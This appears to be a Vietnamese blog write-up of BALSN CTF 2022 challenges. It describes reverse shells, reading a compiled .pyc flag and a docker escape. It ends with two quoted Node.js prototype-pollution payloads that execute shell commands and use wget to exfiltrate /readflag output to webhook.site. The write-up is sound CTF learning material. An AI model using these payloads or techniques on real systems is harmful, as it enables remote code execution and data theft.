 # welcome (misc)

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427236124/mmmW5ruhU.png)

Access tới url ta thấy một terminal, nhập `showflag`: 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427361093/2acIO6X1R.png)

Một vài dòng cat được hiển thị ra, tiếp theo mình check `history`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427395633/GhfJRaU9b.png)

Cuối cùng chỉ cần cat từng file và nối lại với nhau ta được flag

> BALSN{WELCOME_2_BALSNCTF!}

---

# my first app (web)

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427194147/H0mLMPc6k.png)

Bài này mình làm theo kiểu hơi chày cối 1 tí 😚, view source 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427038824/ePBXWdqJA.png)

và flag nằm ở `/_next/static/chunks/pages/index-1491e2aa877a3c04.js`


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427080949/TYPPym1fC.png)

---

# Health Check 1 (web)

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427182027/q2wGoqpjH.png)

Từ mô tả có thể đoán được server sử dụng framework FastAPI, thử access tới `/docs`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427620743/rCIAvdchJ.png)

Ở api `/new`, server sẽ chạy file `run` trong zipfile mà ta uploaded lên

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662427680300/4WQ0d5uXN.png)

sau khi reverse shell và check permission thì có vẻ như file `flag2` và `flag1.py` ta không có quyền đọc (user hiện tại là nobody)

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662428331751/B4ZPBshZf.png)

từ `background.py` có thể thấy `flag1.py` được import vào, vì vậy nó sẽ được compiled và file .pyc của nó nằm trong folder `__pycache__`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662428479603/gg2jqdyw8.png)

cat file .pyc này ra là có flag1

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662429909655/NlkkQm4Tb.png)

> BALSN{y37_4n0th3r_pYC4ch3_cHa1leN93???}

---

# Health Check 2 (web)

Source vẫn như cũ nhưng ta cần đọc được flag2, phần này hơi thiên về "Privilege escalation" 1 tí mà cụ thể là docker escape

Có thể thấy ở `background.py`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662436865615/Do9fa8HR-.png)

Nếu tồn tại file `docker-entry` trong zip file gửi lên thì sẽ run một container với option -v và user là `user`, idea sẽ như video [này](https://www.youtube.com/watch?v=0oTuH_xY3mw)

Trước tiên rev shell vô container (bỏ payload rev shell vào file docker-entry) sau đó

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662437724629/07MRlQiRQ.png)

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1662437736350/yEDH_f3MO.png)

> BALSN{d0cK3r_baD_8ad_ro07_B4d_b@d}

---

# 2linenodejs (web)

Maple's payload:

```
?{"__proto__":{"command":"sh","contextExtensions":[{"process":{"argv":["","","-c","wget\thttp://webhook.site/81f6d1c1-a744-4d78-966a-136742f02e34?flag=$(/readflag)"]}}],"path":"/usr/local/lib/node_modules/npm/node_modules/opener/bin","data":{"aaa":"bbb","exports":"./opener-bin.js","name":"./usage"}},"toString":{"arguments":0}} x
```

Huli's payload:

```
?{"__proto__":{"data":{"exports":{".":"./preinstall.js"},"name":"./usage"},"path":"/opt/yarn-v1.22.19","shell":"node","npm_config_global":1,"env":{"NODE_DEBUG":"console.log(require('child_process').execSync('wget${IFS}https://webhook.site/a0beafdc-df63-4804-85a8-7945ad473bf5?q=$(/readflag)').toString());process.exit()//","NODE_OPTIONS":"--require=/proc/self/environ"},"__proto__":{}}}
```

Writeup: <https://ctf.zeyu2001.com/2022/balsnctf-2022/2linenodejs>

